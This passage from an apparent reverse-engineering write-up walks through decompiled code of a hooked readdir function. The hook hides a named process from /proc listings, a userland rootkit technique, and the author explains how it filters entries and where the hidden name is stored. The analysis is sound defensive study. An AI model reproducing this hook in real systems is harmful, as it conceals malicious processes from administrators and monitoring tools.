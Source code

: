       local_10 = *(long *)(in_FS_OFFSET + 0x28);
      if ((original_readdir64 == (code *)0x0) &&
         (original_readdir64 = (code *)dlsym(0xffffffffffffffff,"readdir"),
         original_readdir64 == (code *)0x0)) {
        uVar2 = dlerror();
        fprintf(stderr,"Error in dlsym: %s\n",uVar2);
      }
      while (((pdVar3 = (dirent64 *)(*original_readdir64)(__dirp), pdVar3 != (dirent64 *)0x0 &&
              (uVar2 = get_dir_name(__dirp,local_218,0x100), (int)uVar2 != 0)) &&
             (iVar1 = strcmp(local_218,"/proc"), iVar1 == 0))) {
        uVar2 = get_process_name(pdVar3->d_name,local_118);
        if (((int)uVar2 == 0) || (iVar1 = strcmp(local_118,process_to_filter), iVar1 != 0)) break;
      }
      if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
        return pdVar3;
      }
                        /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }



This code looks very much like the example I cited from h0mbre earlier.
After the variables are declared, there's a block that is getting the
libc `readdir64` and saving that as `original_readaddr64`.

Then there's a while loop, and in that loop I see the check:



    if (((int)uVar2 == 0) || (iVar1 = strcmp(local_118,process_to_filter), iVar1 != 0)) break;



If `local_118`, which is the current process name, matches
`process_to_filter`, it breaks and doesn't return.

By double clicking on `process_to_filter`, the Listing window jumps to
what that's a pointer to:

![](/img/image-20191122064815544.png)

Double clicking on `DAT00102000` loads the address 1020000, which shows
the string:

![](/img/image-20191122064913283.png)

